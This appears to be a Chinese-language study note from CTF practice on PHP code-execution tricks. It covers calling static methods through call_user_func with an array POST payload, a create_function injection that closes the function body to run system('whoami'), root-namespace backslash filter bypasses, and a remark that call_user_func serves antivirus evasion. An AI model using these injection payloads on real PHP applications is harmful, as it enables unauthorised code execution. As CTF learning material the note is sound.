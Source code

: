 通过 `::` 访问

```php
$ctfshow::getFlag();
```

通过 `call_user_func($_POST['ctfshow'])` 以数组形式调用静态方法

```
ctfshow[]=ctfshow&ctfshow[]=getFlag
```

[https://www.php.net/manual/zh/language.oop5.static.php](https://www.php.net/manual/zh/language.oop5.static.php)

## call_user_func()

```php
call_user_func(callable $callback, mixed ...$args): mixed
```

调用回调函数, 通常用来做免杀, 不过也可以调用类里面的方法

静态方法

```php
call_user_func('myclass::static_method')
```

传递数组 (动态/静态)

```php
call_user_func(array('myclass', 'static_method'));

call_user_func(array(new myclass(), 'dynamic_method'));
```

## create_function()

```php
create_function(string $args, string $code): string
```

创建匿名函数, 不过这个比较特别, 第一个位置传递的是匿名函数的参数 (有时候可以绕过过滤)

闭合括号执行任意代码

```php
create_function('', "system('whoami');//");
```

参考文章 https://paper.seebug.org/755/

## 根命名空间 \ 绕过过滤

上面的参考文章里也提到了

> PHP 的命名空间默认为 `\`, 所有的函数和类都在 `\` 这个命名空间中, 如果直接写函数名 function_name() 调用, 调用的时候其实相当于写了一个相对路径; 而如果写 \function_name() 这样调用函数. 则其实是写了一个绝对路径. 如果你在其他 namespace 里调用系统类, 就必须写绝对路径这种写法.
